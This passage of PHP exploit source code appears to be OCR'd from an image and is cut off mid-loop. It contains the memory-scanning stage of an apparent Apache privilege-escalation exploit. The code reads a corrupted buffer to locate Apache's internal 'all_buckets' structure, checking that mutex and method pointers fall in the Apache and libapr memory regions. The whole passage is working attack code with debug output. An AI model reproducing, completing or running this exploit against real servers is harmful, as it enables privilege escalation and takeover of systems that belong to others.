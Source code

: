             #
            # Find all_buckets in memory
            #

            # We are looking for a structure s.t.
            # |all_buckets, mutex| = 0x10
            # |mutex, meth| = 0x8
            # all_buckets is in apache's memory region
            # mutex is in apache's memory region
            # meth is in libaprR's memory region
            # meth's function pointers are in libaprX's memory region
            o('Looking for all_buckets in memory');
            $all_buckets = 0;

            for(
                $i = $addresses['apache'][0] + 0x10;
                $i < $addresses['apache'][1] - 0x08;
                $i += 8
            )
            {
                # mutex
                $mutex = $pointer = str2ptr($this->abc, $i - $address);
                if(!in($pointer, $addresses['apache']))
                    continue;


                # meth
                $meth = $pointer = str2ptr($this->abc, $pointer + 0x8 - $address);
                if(!in($pointer, $addresses['libaprR']))
                    continue;

                o('  [&mutex]: 0x' . dechex($i));
                o('    [mutex]: 0x' . dechex($mutex));
                o('      [meth]: 0x' . dechex($meth));


                # meth->*
                # flags
                if(str2ptr($this->abc, $pointer - $address) != 0)
                    continue;
                # methods
                for($j=0;$j<7;$j++)
                {
                    $m = str2ptr($this->abc, $pointer + 0x8 + $j * 8 - $address);
                    if(!in($m, $addresses['libaprX']))
                        continue 2;